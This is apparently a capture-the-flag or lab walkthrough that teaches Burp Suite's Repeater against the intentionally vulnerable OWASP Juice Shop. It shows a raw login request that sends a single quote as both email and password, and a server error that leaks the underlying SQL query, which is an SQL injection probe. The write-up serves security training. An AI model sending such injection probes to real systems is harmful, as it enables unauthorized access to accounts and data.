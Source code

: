 The Repeater allows us to repeat requests we've already made. They can be reissued as is or with modifications. It's usually used for experimentation or very-fine tuned exploitations where automation isn't helpful.

### Questions

- To start, click 'Account' (this might be 'Login' depending on the version of Juice Shop) in the top right corner of Juice Shop in order to navigate to the login page.
- Try logging in with invalid credentials. What error is generated when login fails? [_Invalid email or password._]
- But wait, didn't we want to send that request to Repeater? Even though we didn't send it to Repeater initially via intercept, we can still find the request in our history. Switch over to the HTTP sub-tab of Proxy. Look through these requests until you find our failed login attempt. Right-click on this request and send it to Repeater and then send it to Intruder, too!
- Now that we've sent the request to Repeater, let's try adjusting the request such that we are sending a single quote (') as both the email and password. What error is generated from this request? [`SQLITE_ERROR`]

```
Request:

POST /rest/user/login HTTP/1.1
Host: 10.10.226.227
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/json
Content-Length: 28
Origin: http://10.10.226.227
Connection: close
Referer: http://10.10.226.227/
Cookie: io=mGLS5iJ7wYcz5840AAAM; cookieconsent_status=dismiss; language=en

{"email":"'","password":"'"}

Response:

HTTP/1.1 500 Internal Server Error
X-Powered-By: Express
Access-Control-Allow-Origin: *
X-Content-Type-Options: nosniff
X-Frame-Options: SAMEORIGIN
Content-Type: application/json; charset=utf-8
Date: Tue, 20 Jul 2021 21:10:03 GMT
Connection: close
Content-Length: 1130

{
  "error": {
    "message": "SQLITE_ERROR: unrecognized token: \"3590cb8af0bbb9e78c343b52b93773c9\"",
    "stack": "SequelizeDatabaseError: SQLITE_ERROR: unrecognized token: \"3590cb8af0bbb9e78c343b52b93773c9\"\n    at Query.formatError (/home/ubuntu/juice-shop_8.2.0/node_modules/sequelize/lib/dialects/sqlite/query.js:423:16)\n    at afterExecute (/home/ubuntu/juice-shop_8.2.0/node_modules/sequelize/lib/dialects/sqlite/query.js:119:32)\n    at replacement (/home/ubuntu/juice-shop_8.2.0/node_modules/sqlite3/lib/trace.js:19:31)\n    at Statement.errBack (/home/ubuntu/juice-shop_8.2.0/node_modules/sqlite3/lib/sqlite3.js:16:21)",
    "name": "SequelizeDatabaseError",
    "parent": {
      "errno": 1,
      "code": "SQLITE_ERROR",
      "sql": "SELECT * FROM Users WHERE email = ''' AND password = '3590cb8af0bbb9e78c343b52b93773c9'"
    },
```